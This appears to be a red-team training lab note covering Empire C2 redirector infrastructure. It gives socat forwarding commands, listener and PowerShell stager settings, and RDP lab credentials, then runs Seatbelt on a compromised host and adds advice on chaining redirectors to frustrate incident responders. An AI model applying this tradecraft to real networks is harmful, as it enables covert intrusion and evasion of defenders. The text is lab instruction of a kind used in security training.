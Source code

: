 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.

![[Pasted image 20240310173626.png]]
### 5. Create Stager

Select multi/launcher in the drop down menu. Then provide the following values:

    StarkillerName: interactive-https-pwsh
    Listener: interactive-https
    Language: powershell

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen

![[Pasted image 20240310173648.png]]

### 6. Deliver Stager
- Execute the Stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

![[Pasted image 20240310174517.png]]
###### Note: In a real engagement you would avoid RDP and if you absolutely must, you should use a proxy for the connection.
- We are going to RDP to the target network, consider this a system you control and disregard communication path, OPSEC, and tradecraft on this system only. 

Open a command prompt by clicking the windows icon in the lower left and typing cmd.exe. Then right click in the command prompt. 
- You should see a lot of encoded text. Press Enter to spawn a new agent. The command prompt should close automatically. You may now exit your RDP session.
![[Pasted image 20240310174620.png]]
![[Pasted image 20240310174630.png]]
### 7. Agent Interaction

Click on the chain icon on the left navigation window to bring up the Agents dashboard. 
- You may now create tasks to explore the new system.

If you look at the VIEW tab of the agent you will see that the External IP is the IP of your redirector while the internal IP is the IP of the host.

Let's run Seatbelt from GhostPack which will allow us to get a lot of information about the user and host on this system. 
- Provide the following values on the INTERACT tab of the agent and click submit:

	    Execute Module: csharp/GhostPack/Seatbelt
	    DotNetVersion: Net35
	    Command: -group=user

![[Pasted image 20240310181957.png]]
#### Notes

Now all the C2 traffic is routed through a redirector in gray space. This creates one hop between your C2 server and the target network.
- If Incident Responders conduct network forensics, they would get the DNS or IP address of the temporary VPS instead of your C2 server.
- The Blue Team can ask the VPS provider for logs around the time of the incident through Law Enforcement channels or by filling out an Abuse report.
- With one hop that might be a concern, but redirectors can be chained together to make it more difficult to unravel the whole chain.
- If chaining redirectors, use different providers in different geographic areas.
## Conclusion

In this lab we created an HTTP listener that was configured with X.509 certificates to safeguard our C2 traffic. 
- We then generated a PowerShell stager and delivered it to the windows system in the target environment. 
- For the purposes of the lab, we used direct RDP access to execute our stager code. 
- In a real engagement other delivery methods like phishing would be necessary to get that initial access. 
- Lastly, we were assured that all the communication worked because the Agent was spawned and we could see that the traffic was directed to our C2 through the redirector.

---
##### BONUS - iptables


